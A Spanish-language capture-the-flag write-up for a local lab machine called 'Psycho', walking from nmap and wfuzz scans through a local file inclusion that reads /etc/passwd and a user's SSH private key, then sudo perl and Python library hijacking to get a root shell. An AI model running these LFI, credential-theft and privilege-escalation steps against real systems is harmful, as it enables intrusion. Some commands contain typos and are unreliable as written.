### Informe de máquina *"Psycho"*


Vamos a realizar la maquina "Psycho", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `psycho.tar`




Realizamos un testeo de conexión con el comando `ping`.


Ahora realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.




Identificamos que la máquina tiene el puerto 22 y el puerto 80 abiertos, usamos de nuevo la herramienta `nmap` para obtener más detalle de estos mismos.
El comando usado fué:

```bash
nmap -p21,80 -sC -sV -O 172.17.0.2
```

`nmap` → Ejecuta la herramienta de escaneo de red Nmap.

`-p21,80` → Especifica los puertos que queremos escanear. En este caso 21 y 80.

`-sC` → Ejecuta scripts de detección predeterminados

`-sV` → Detección de versiones de servicios.

`-O` → Detección del sistema operativo.

`172.17.0.2` → Especifica la dirección IP del objetivo a escanear.



De momento parece que no encontramos versiones vulnerables, continuemos con un chequeo de la página web




Encontramos el nombre de un posible usuario que podria ser "tluisillo" o "luisillo", Es curioso pero al final del código fuente se encuentra un mensaje de error.

Por ahora revisemos su encontramos más páginas o directorios con un ataque de fuzzing.



Se encontró un directorio llamado `assets` dentro de este se encontró una imagen llamada "background.jpg", se revisó los metadatos de la misma pero no se entonctró mucha más información.

Al tratarse de un archivo `.php` se procede a intentar un ataque de LFI (Local File Inclusion), que consiste en realizar un llamado de archivos locales para ser visualizados en el navegador.
Procedemos a realizar un ataque de fuzzing con la herramienta `wfuzz` con el siguiente comando:

```bash
wfuzz -c --hl=62 -w /usr/share/worldlists/dirb/common.txt 'http://172.17.0.2/index.php?FUZZ=/etc/passwd'

```

- `wfuzz`	Herramienta de fuzzing 
- `-c`	Activa la salida en color, facilitando la visualización de los resultados.
- `--hl=62`	Oculta respuestas cuyo tamaño es 62 líneas, evitando ruido en la salida. (Evitar consultas con error 404)
- `-w` /usr/share/worldlists/dirb/common.txt	Especifica el diccionario a usar en el fuzzing.
- `'http://172.17.0.2/index.php?FUZZ=/etc/passwd'`	Indica la URL objetivo, donde la palabra clave FUZZ será reemplazada por las palabras del diccionario.



Se ha encontrado la palabra "secret", es decir haciendo llamado a esta variable la podemos asignar el valor de un archivo interno del servidor como  `/etc/passwd` donde podemos identificar ususarios en el servidor.

```
172.17.0.2/index.php?secret=/etc/passwd
```



En código fuente de la página se puede ver con mejor detalle el contenido del archivo, de esta consulta se pudo encontrar 2 usuarios con permisos a shell fuera de root, "luisillo" y "vaxei".
Lo que podemos hacer es ver si encontramos la llave privada ssh de alguno de estos usuarios.
Se intento con luisillo pero sinexito.
Pero se encontró la llave del usuario vaxei

```
172.17.0.2/index.php?secret=/home/vaxei/.ssh/id_rsa
```




Creamos un nuevo archivo llamado `key` donde guardaremos esta llave presisamente.



Para logeranos como un usuario haciendo uso de la llave ejecutamos el siguiente comando:

```bash
ssh -i key vaxei@172.17.0.2
```



Una vez logueados, revisamos que comandos podemos usar con altos privilegios, vemos que podemos usar `perl` bajo los permisos de usuario `luisillo`
Realizamos una busqueda en [GTFOBins](https://gtfobins.github.io/) de como ejecutar una shell con perl



Lo ejecutamos con la salvedad que al momento de ejecutar el comando sudo, buscamos los permisos del usuario luisillo, por eso ejectamos el comándo de la siguiente manera:

```bash
sudo -u luisillo perl -e 'excec "/bin/bash/";'
```


Una vez con la terminal con los permisos de luisillo, realizamos una busqueda de los permisos sudo que posee este usuario.

Se observa que puede podemos ejecutar el comando `python3` con permisos de superusuario, pero con la salvedad que solo lo podemos hacer con el archivo /opt/paw.py.

Pero es un archivo que no podemos editar, pero si lo podemos visualizar.

Observamos que este archivo hace un llamado a unas librerias, una de ellas `subprocess.py`. *Se puede realizar con las otras librerias támbien*

Python realiza una busqueda de estos archivos en una primera instancia en el directorio donde se encuentra el archivo python que le hace este llamado; es decir, si creamos un archivo con el mismo nombre de una de estas librerias en el mismo directorio, Python hará llamado primero a nuestro archivo antes que al de la libreria.

Primero buscamos en [GTFOBins](https://gtfobins.github.io/) como ejecutar una shell con Python.



Ahora si, ubicados en la carpeta /opt creamos el archivo subprocess.py con el comando:

```bash
touch subprocess.py
```

Ahora para escribir dentro de este ejecutamos el comando:

```bash
echo "import os; os.system('/bin/bash')" > subprocess.py
```

Perfecto ahora ejecutemos el archivo `/opt/paw.py` con permisos `sudo` y al momento que haga el llamado a la librería subprocess.py se ejecutará nuestro código.

```bash
sudo python3 /opt/paw.py
```


